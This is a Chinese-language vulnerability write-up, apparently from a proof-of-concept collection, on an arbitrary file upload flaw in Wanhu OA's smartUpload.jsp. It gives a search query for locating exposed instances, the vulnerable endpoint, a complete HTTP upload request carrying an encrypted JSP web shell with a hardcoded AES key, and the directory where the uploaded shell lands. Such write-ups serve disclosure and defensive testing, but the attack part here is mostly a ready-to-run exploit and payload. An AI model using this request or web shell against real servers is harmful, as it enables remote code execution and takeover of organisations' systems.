 # 万户OA smartUpload.jsp 任意文件上传漏洞

## 漏洞描述

万户OA smartUpload.jsp文件存在文件上传接口，且没有对文件类型进行过滤,导致任意文件上传漏洞

## 漏洞影响

<a-checkbox checked>万户OA </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="万户网络-ezOFFICE"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1628348571931-52bde954-fcd0-485f-bc17-1494f5eb53f4-20220313175038784.png)

文件上传接口

```python
/defaultroot/extension/smartUpload.jsp?path=information&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&fileMaxNum=0&fileType=gif,jpg,bmp,jsp,png&fileMinWidth=0&fileMinHeight=0&fileMaxWidth=0&fileMaxHeight=0
```

![img](../../../.vuepress/public/img/1631201920760-82135dc9-6e13-4305-9876-cc8b8ef6d4cf.png)

可直接上传恶意jsp文件

```python
POST /defaultroot/extension/smartUpload.jsp?path=information&mode=add&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&fileMaxNum=0&fileType=gif,jpg,bmp,jsp,png&fileMinWidth=0&fileMinHeight=0&fileMaxWidth=0&fileMaxHeight=0 HTTP/1.1
Host: 
Content-Length: 938
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynNQ8hoU56tfSwBVU
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=PjXnh6bLTzy0ygQf41vWctGPLGkSvkJ6J1yS3ppzJmCvVFQZgm1r!1156443419
Connection: close

------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="photo"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="continueUpload"

1
------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="submit"

上传继续
------WebKitFormBoundarynNQ8hoU56tfSwBVU--
```

![img](../../../.vuepress/public/img/1631201969026-5429e06f-9325-48aa-a730-9db081177c10.png)

通过抓包可查看上传的文件名，上传的目录为 `/defaultroot/upload/information/`

![img](../../../.vuepress/public/img/1631202052399-23c860b4-fe4a-48b7-b284-9d5e8eb4c05c.png)